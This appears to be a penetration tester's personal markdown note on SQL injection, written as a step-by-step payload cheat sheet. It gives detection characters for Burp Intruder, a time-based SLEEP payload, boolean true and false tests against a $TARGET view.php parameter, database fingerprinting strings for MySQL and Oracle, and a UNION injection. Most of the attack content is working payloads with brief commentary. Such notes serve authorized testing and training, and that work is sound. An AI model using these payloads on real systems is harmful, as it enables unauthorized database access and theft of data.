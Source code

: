 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Detection
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#entry-point-detection
```

Try the following characters manually or in Burp Intruder where ever you see a parameter:
```
'
%27
"
%22
#
%23
,
%2C
;
%3B
)
' -- - 
%27 -- - 
" -- - 
%22 -- - 
# -- - 
%23 -- - 
; -- - 
%3B -- - 
) -- - 
```

![[Pasted image 20220712133826.png]]

![[Pasted image 20220712133729.png]]

Notice how only the 18th payload has the same length as the baseline.  Meaning we should be able to manually load that payload `) -- - ` and the page would load correctly.

Test further with sleep:
```sql
&job=1)(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434 -- -
```

#### Boolean Based Detection
Original URL:
```
http://$TARGET/view.php?id=1141
```

Quick injection test:
```
http://$TARGET/view.php?id=1141'
```

Same results if we change the parameter to something non existent. 
```
http://$TARGET/view.php?id=9999
```


Testing for Boolean logic (True statement):
```
http://$TARGET/view.php?id=9999' or '1'='1
```
Page loads correctly!

Testing for Boolean logic (False statement):
```
http://$TARGET/view.php?id=9999' or '1'='2
```
Page does not load correctly!

#### Database Detection
MySQL MSSQL MariaDB testing:
```
'||(SELECT '')||'
```

Oracle testing:
```
'||(SELECT '' FROM dual)||'
```

If the page loads correctly, that should mean you found an injection point.

#### Union command injection
All we have to do here is utilize union for command injection:
```
) union select 'whoami' -- - 
```

![[Pasted image 20220712134347.png]]

#### SQL Login bypass

Use Intruder (Battering ram) + PayloadAllTheThings:

#### MySql
[[1.2_MySQL]]

#### MariaDB
[[1.3_MariaDB]]

#### OracleDB
[[1.4_OracleDB]]

#### MSSQL
[[1.5_MSSQLDB]]

#### MongoDB
[[Port 27017 - MongoDB ~]]


